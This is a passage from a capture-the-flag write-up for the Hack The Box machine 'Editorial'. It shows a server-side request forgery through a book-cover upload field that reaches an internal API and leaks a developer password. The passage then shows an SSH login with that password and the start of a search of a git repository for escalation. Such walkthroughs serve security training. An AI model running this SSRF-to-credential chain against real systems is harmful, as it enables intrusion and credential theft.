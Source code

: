 ```
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

#### Enumerate REST API endpoints to discover credentials for user `dev`
```
┌──(magicrc㉿perun)-[~/attack/HTB Editorial]
└─$ FILE=$(curl -s http://editorial.htb/upload-cover -F "bookurl=http://127.0.0.1:5000/api/latest/metadata/messages/authors" -F "bookfile=;filename=")
curl -s http://editorial.htb/$FILE | jq
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

#### Use discovered credentials to gain access over SSH
```
┌──(magicrc㉿perun)-[~/attack/HTB Editorial]
└─$ ssh dev@editorial.htb
dev@editorial.htb's password: 
<SNIP>
dev@editorial:~$ id
uid=1001(dev) gid=1001(dev) groups=1001(dev)
```

### Escalate to `prod` user using discovered credentials

#### Discover git repository in `apps` directory
```
dev@editorial:~$ ls -la apps/
total 12
drwxrwxr-x 3 dev dev 4096 Jun  5  2024 .
drwxr-x--- 4 dev dev 4096 Jun  5  2024 ..
drwxr-xr-x 8 dev dev 4096 Jun  5  2024 .git
```
